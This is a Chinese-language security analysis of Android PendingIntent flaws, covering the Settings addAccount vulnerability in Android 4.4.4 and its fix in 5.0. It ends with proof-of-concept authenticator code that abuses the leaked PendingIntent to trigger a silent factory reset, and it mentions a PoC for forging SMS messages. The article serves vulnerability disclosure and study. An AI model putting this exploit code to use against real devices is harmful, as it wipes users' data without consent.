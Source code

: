 ```
    }
    mFlags |= other.mFlags;
    if (other.mSourceBounds != null
            && (mSourceBounds == null || (flags&FILL_IN_SOURCE_BOUNDS) != 0)) {
        mSourceBounds = new Rect(other.mSourceBounds);
        changes |= FILL_IN_SOURCE_BOUNDS;
    }
    if (mExtras == null) {//Extras数据被合并
        if (other.mExtras != null) {
            mExtras = new Bundle(other.mExtras);
        }
    } else if (other.mExtras != null) {
        try {
            Bundle newb = new Bundle(other.mExtras);
            newb.putAll(mExtras);
            mExtras = newb;
        } catch (RuntimeException e) {

```

而一般开发者都不会去显式设置这个标志（教材里没人这么教），所以通常情况下，B无法修改原始Intent的Component，而仅当原始Intent的action为空时，可以修改action。

所以大多数情况下，PendingIntent的安全风险主要发生在下面两个条件同时满足的场景下：

1.  构造PendingIntent时的原始Intent既没有指定Component，也没有指定action
2.  将PendingIntent泄露给第三方

原因是，如果原始Intent的Component与action都为空（“双无”Intent），B就可以通过修改action来将Intent发送向那些声明了intent filter的组件，如果A是一个有高权限的APP（如settings就具有SYSTEM权限），B就可以以A的身份做很多事情。

当然上面描述的是大多数情况。一些极端的情况下，比如某些情况下B虽然无法修改action将Intent发送到其他组件，但依然可以放入额外的数据，如果该组件本身接收数据时未考虑周全，也是存在风险的。

0x02 Settings中的PendingIntent漏洞
------------------------------

* * *

如果你阅读过retme关于launchAnywhere的分析【1】，就会了解Settings的addAccount机制：一个恶意APP可以注册一种独有的账号类型并成为该类型账号的认证者（Authenticator），通过发送Intent来促使Settings添加该类型账号时，Settings将调用恶意APP提供的接口。而这个过程，就不幸将一个“双无”PendingIntent发给了恶意APP。

看看安卓4.4.4的Settings中有漏洞的源码：可见一个mPendingIntent是通过new Intent()构造原始Intent的，所以为“双无”Intent，这个PendingIntent最终被通过AccountManager.addAccount方法传递给了恶意APP接口：

![enter image description here](http://drops.javaweb.org/uploads/images/955130cc044e075ff466cbc0c77816cd50053932.jpg)

在Android 5.0的源码中，修复方法是设置了一个虚构的Action与Component https://android.googlesource.com/platform/packages/apps/Settings/+/37b58a4%5E%21/#F0

![enter image description here](http://drops.javaweb.org/uploads/images/818026cb23ab390f420eb722294748d0b6c0cb0c.jpg)

最初报告这个漏洞给Android时，用的伪造短信的POC，也是retme博客中演示的。例如可以伪造10086发送的短信，这与收到正常短信的表象完全一致（并非有些APP申请了WRITE_SMS权限后直接写短信数据库时无接收提示）。后来又更新了一个Factory Reset的POC，可以强制无任何提示将用户手机恢复到出厂设置，清空短信与通信录等用户数据，恶意APP的接口代码片段如下：

```
@Override
public Bundle addAccount(AccountAuthenticatorResponse response, String accountType, String authTokenType, String[] requiredFeatures, Bundle options) throws NetworkErrorException {
//这里通过getParcelable(“pendingintent”)就获得了settings传过来的“双无”PendingIntent：

  PendingIntent test = (PendingIntent)options.getParcelable("pendingIntent"); 

  Intent newIntent2 = new Intent("android.intent.action.MASTER_CLEAR");
  try {
            test.send(mContext, 0, newIntent2, null, null);
  } catch (CanceledException e) {
            // TODO Auto-generated catch block
            e.printStackTrace();
  }
```